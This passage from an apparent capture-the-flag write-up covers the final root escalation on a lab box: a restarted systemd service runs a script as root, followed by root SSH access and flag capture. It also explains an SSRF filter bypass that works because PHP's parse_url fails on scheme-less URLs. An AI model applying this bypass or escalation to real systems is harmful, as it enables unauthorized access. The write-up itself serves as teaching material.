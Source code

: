 Now I’ll restart the service, and `script_ran` is now present on the box:

```

svc@encoding:/etc/systemd$ sudo systemctl restart 0xdf
svc@encoding:/etc/systemd$ ls -l /tmp/script_ran 
-rw-r--r-- 1 root root 0 Apr 12 17:19 /tmp/script_ran

```

That’s a good indication that the script executed as root.

SSH works as well:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@haxtables.htb
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
...[snip]...
root@encoding:~#

```

And I can get `root.txt`:

```

root@encoding:~# cat root.txt
52e6c280************************

```

## Beyond Root

### Background

When I was talking to IppSec about how I solved this, he was surprised I used `handler.php` to get the SSRF working. “Why didn’t you just use the `file_url` argument in `/v3/tools/string/index.php`?” he asked.

But I [tried that above](#ssrf-failsort-of)! It didn’t work. On comparing notes, the difference was this: my URL started with `http://`, and his didn’t!

### Analysis

I’ll play around with this in [this video](https://www.youtube.com/watch?v=sXMqrgsf0b8)):

The summary is that PHP’s [parse\_url](https://www.php.net/manual/en/function.parse-url.php) function, despite it’s claim that “Partial and invalid URLs are also accepted, **parse\_url()** tries its best to parse them correctly”, fails when the scheme is missing entirely, and returns nothing:

```

php > echo parse_url('http://image.haxtables.htb', PHP_URL_HOST);
image.haxtables.htb
php > echo parse_url('image.haxtables.htb', PHP_URL_HOST);
php > 

```

That means that this check works as expected with `http://image.haxtables.htb`, but is bypassed when given `image.haxtables.htb`:

```

    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        jsonify(["message" => "Unacceptable URL"]);
    }

```